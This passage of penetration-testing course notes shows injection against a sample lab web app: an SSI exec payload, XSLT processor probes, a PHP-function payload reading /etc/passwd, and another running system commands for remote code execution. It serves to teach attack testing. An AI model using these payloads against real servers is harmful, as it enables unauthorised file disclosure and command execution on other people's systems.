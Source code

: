 Next, try injecting a command execution:

`<!--#exec cmd="id" -->`

The page will display the output of the id command (e.g., user info like www-data).

# XSLT Injection

**Finding XSLT Injection**

Our sample web app shows a list of Academy modules with a username displayed at the top. If the username is added to the XSLT without cleaning it, the app might be vulnerable.

To test, enter an invalid XML character like < as the username. If the server returns an error (e.g., 500 Internal Server Error), it suggests a possible XSLT injection.

**Getting Info About the XSLT Processor**

We can inject these XSLT snippets to learn about the processor:

`Version: <xsl:value-of select="system-property('xsl:version')" />`
`Vendor: <xsl:value-of select="system-property('xsl:vendor')" />`
`Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />`
`Product Name: <xsl:value-of select="system-property('xsl:product-name')" />`
`Product Version: <xsl:value-of select="system-property('xsl:product-version')" />`


If the app shows this info, it confirms XSLT injection. Our example uses libxslt version 1.0.

**Reading Local Files (LFI)**

XSLT 2.0 has a function unparsed-text to read files, but if the app uses XSLT 1.0, it won’t work and will error out.

If the XSLT processor supports calling PHP functions, we can read files with this payload:

`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`

This will output the content of `/etc/passwd` on the page.

**Remote Code Execution (RCE)**

If PHP functions are supported, we can run system commands with:

`<xsl:value-of select="php:function('system','id')" />`

This runs the id command and shows the result, giving us remote code execution on the server.
